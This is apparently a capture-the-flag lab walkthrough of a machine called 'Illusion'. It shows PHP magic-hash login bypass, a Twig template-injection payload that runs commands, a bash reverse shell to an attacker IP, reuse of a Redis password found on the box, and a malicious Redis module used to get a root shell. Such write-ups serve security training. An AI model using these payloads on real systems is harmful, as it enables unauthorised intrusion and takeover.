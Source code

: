 # Illusion

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:22 +08
Warning: 192.168.183.203 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.203
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can start proxying traffic through Burp.&#x20;

### Web Enum --> Magic Hashes

Port 80 presents a corporate web page with a Login:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

The login page is basic and operates in PHP:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work here. Brute forcing also doesn't work. Since this runs on PHP, we can try some Magic Hashes by submitting this request:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md" %}

This works because the `Location` header points to `dashboard.php` now.&#x20;

### Orders --> SSTI

The dashboard is simple.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

If we submit any queries, we can see our order name pop up on the top:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Since this website runs on PHP and the input value is printed out on screen, I wanted to test for SSTI by using `{{7*7}}` as the name of the order, and it works:

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

On Hacktricks, there's a whole section for Twig (PHP), and I tried their payload to run `id`:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works and we have RCE on the machine. Sending this payload gets us a reverse shell:

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'")}}
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis Creds --> RCE

Within the user's directory, there was a Redis related file that contained a hash:

```
www-data@illusion:/home/james$ ls
local.txt  redis-openssl-gen-pass.txt
www-data@illusion:/home/james$ cat redis-openssl-gen-pass.txt 
sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
```

Checking the listening ports using `netstat` reveals that port 6379 is listening and is likely Redis:

```
www-data@illusion:/home/james$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

We can port forward this using `chisel`. Afterwards, we can access the Redis database using `redis-cli`. Attempts to run commands fail because we aren't authenticated:

```
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO
NOAUTH Authentication required.
```

In this case, we can try the hash that we found earlier.&#x20;

```
127.0.0.1:6379> AUTH sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.2.6
<TRUNCATED>
```

There was nothing within the database that was interesting, but I did want to know who was running it. A quick `ps -elf` reveals that the `root` user is running it:

```
www-data@illusion:/home/james$ ps -elf |grep redis
5 S root         893       1  0  80   0 - 13071 -      10:21 ?        00:00:00 /usr/local/bin/redis-server 127.0.0.1:6379
0 S www-data    3221    3025  0  80   0 -  1625 pipe_w 10:37 pts/0    00:00:00 grep redis
```

Since `root` is running it and we can login, this means that we can also load any module that we want. This repository has a module that works:

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

Compile and upload the `.so` file to the machine. Then, load it within `redis-cli`:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell via `system.rev <IP> <PORT>`:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Rooted!
